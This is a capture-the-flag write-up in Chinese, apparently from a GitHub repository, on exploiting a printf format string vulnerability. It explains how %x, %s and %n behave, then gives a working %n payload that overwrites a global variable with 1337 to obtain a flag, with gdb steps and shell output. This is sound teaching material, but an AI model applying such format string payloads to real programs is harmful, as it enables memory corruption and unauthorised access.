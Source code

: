 # Format
[format.c](format.c)有 **string format vulnerability** ，利用它把一個global integer改成1337。
 * 察看[wiki page](https://en.wikipedia.org/wiki/Printf_format_string)，format function怎麼處理format string和parameter：
  1. format function可以傳入任意長度的parameter
  2. 做什麼事由format string控制
  3. parameter被直接(by value)或間接(by reference address)的push到stack上，等待遇到 `%`字元時被pop出來

那麼，如果我寫一個沒有給參數卻允許傳入format string控制format function的程式碼：`printf(argv[1])`，會怎樣呢？
 * 如果argv[1] =
  * `%d`, `%u`, `%x`, 會把stack最上方的item裡的值pop出來，分別以decimal, unsigned decimal,或hexadecimal表示出來
  * `%s`：正常情況在被處理的時候，stack指到的地方存有字串的reference位址，把位址pop出來，用這位址去找對應的數值並當作字串印出來。但如果不給變數，會直接把stack pointer目前指到的當位址去找資料印出來
  * `%n`：正常情況：`printf("hello%n", &var);` 把length("hello") = 5寫入var裡。但是如果後面不給變數，會直接把目前有多少byte**直接寫入stack pointer目前指到的位址**！！

## Solve
format string 只能寫到stack上，那要怎麼把secret改成1337呢？
 1. code中有一行：`int *ptr = &secret;`
  * ptr已經把secret的位址存到stack裡了
 2. 使用gdb找出secret位置：`(gdb) print &secret`，&secret = 0x804a030
 3. `(gdb) run %08x.%08x.%08x.%08x.%08x.%08x....`找出含有stack addr的是第幾個，找到是第7個。
 4. 把stack倒數第七個改成1337：呼叫`%n`把目前這個字串在`%n`前的byte數目push進%esp指到的地方
  * 湊1337byte：`%[?]u.%08x.%08x.%08x.%08x.%08x.%n`
   * [?] = 1337 - (6個`.`(1 byte)+5個`%08x`(8 byte)) = 1291
 5. 取得flag
```bash
(gdb) run %1291u.%08x.%08x.%08x.%08x.%08x.%n
Starting program: /home/fomat/format %1291u.%08x.%08x.%08x.%08x.%08x.%n
$ ls
flag.txt    format    format.c    Makefile
$ cat flag.txt
cat: flag.txt:  Permission denied
$ ./format %1291u.%08x.%08x.%08x.%08x.%08x.%n
$ cat flag.txt
who_thought_%n_was_a_good_idea?
```

## Reference
 * [format-string-attack教學](https://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf)
